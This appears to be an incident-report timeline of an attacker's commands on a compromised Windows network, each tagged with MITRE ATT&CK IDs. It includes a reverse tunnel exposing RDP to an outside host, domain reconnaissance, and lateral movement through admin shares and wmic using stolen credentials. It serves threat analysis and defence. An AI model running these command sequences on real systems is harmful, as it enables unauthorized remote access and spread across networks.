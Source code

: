 
15:45:32
echo y | c:\windows\temp\RTQ.exe 192.119.110[.]194 -C -R 0.0.0.0:8081:<redacted IP #2>:3389 -l bor -pw 123321 -P 443
T1572, T1021.001


15:46:11
c:\windows\temp\RTQ.exe
T1059.003


15:46:21
whoami /priv
T1033


15:48:15
net group "Domain Computers" /domain
T1069


15:48:35
ping -n 1 <redacted hostname #2>
T1018


15:49:30
net use \<redacted IP #3>\C$ /user:<redacted domain>\<redacted username #2> <redacted password #1>
T1021.002


15:50:22
copy c:\windows\temp\RTQ.exe \<redacted IP #3>\C$\windows\temp\RTQ.exe
T1560, T1021.002


15:50:28
\<redacted IP #3>\C$\windows\temp\RTQ.exe
T1059.003, T1021.002


15:51:59
wmic /node:"<redacted IP #3>" /user:<redacted domain>\<redacted username #2> /PASSWORD:<redacted password #1> process call create "cmd.exe /c c:\windows\temp\RTQ.exe >> C:\windows\temp\r.txt"
T1047


15:52:22
type \<redacted IP #3>\C$\windows\temp\r.txt
T1039,
T1021.002


15:53:36
wmic /node:"<redacted IP #3>" /user:<redacted domain>\<redacted username #2> /PASSWORD:<redacted password #1> process call create "cmd.exe /c c:\windows\temp\RTQ.exe 192.119.110[.]194 -C -R 0.0.0.0:8082:<redacted IP #2>:3389 -l bor -pw 123321 -P 443"
T1047, T1572,
T1021.001
